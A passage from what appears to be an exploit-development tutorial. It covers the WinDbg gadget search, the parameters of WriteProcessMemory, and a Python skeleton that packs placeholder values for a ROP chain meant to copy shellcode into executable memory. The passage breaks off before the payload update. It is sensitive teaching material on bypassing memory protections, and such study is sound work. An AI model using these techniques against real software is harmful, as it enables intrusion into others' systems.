     #now search for opcodes using own script
    #address cannot have bad characters
    $$>a<C:\Temp\ppr-finder.wds 10000000 10226000
    #check the address is correct instructions
    u 1007cf53 L4
    #test by setting breakping
    bp 1007cf53
    ```
    

### 4. WriteProcessMemory Recap

This function will allow you to copy your shellcode to another (executable) location so you can jump to it & execute it. During the copy, WPM() will make sure the destination location is marked as writeable. You only have to make sure the target destination is executable. This function requires six parameters on the stack :

| return address | Address where WriteProcessMemory() needs to return to after it finished |
| --- | --- |
| hProcess | the handle of the current process. Should be -1 to point to the current process (Static value 0xFFFFFFFF) |
| lpBaseAddress | pointer to the location where your shellcode needs to be written to. The "return address" and "lpBaseAddress" will be the same. |
| lpBuffer | based address of your shellcode (dynamically generated, address on the stack) |
| nSize | number of bytes that need to be copied to the destination location |
| lpNumberOfBytesWritten | writeable location, where number of bytes will be written to |

```python
		# BOOL WriteProcessMemory(
    #   HANDLE  hProcess,
    #   LPVOID  lpBaseAddress,
    #   LPCVOID lpBuffer,
    #   SIZE_T  nSize,
    #   SIZE_T  *lpNumberOfBytesWritten
    # );
    #

    va  = pack("<L", (0x41414141))  # WriteProcessMemory address
    va += pack("<L", (0x42424242))  # shellcode return address to return to after WriteProcessMemory is called
    va += pack("<L", (0xffffffff))  # hProcess (pseudo Process handle)
    va += pack("<L", (0x44444444))  # lpBaseAddress (Code cave address)
    va += pack("<L", (0x45454545))  # lpBuffer (shellcode address)
    va += pack("<L", (0x46464646))  # nSize (size of shellcode)
    va += pack("<L", (0x47474747))  # lpNumberOfBytesWritten (writable memory address, i.e. !dh -a MODULE)

```

### 5. Payload Update and Gadget Searching

We update our payload to incorporate our ROP gadgets and buffer that we will be using. We update our payload as follows:
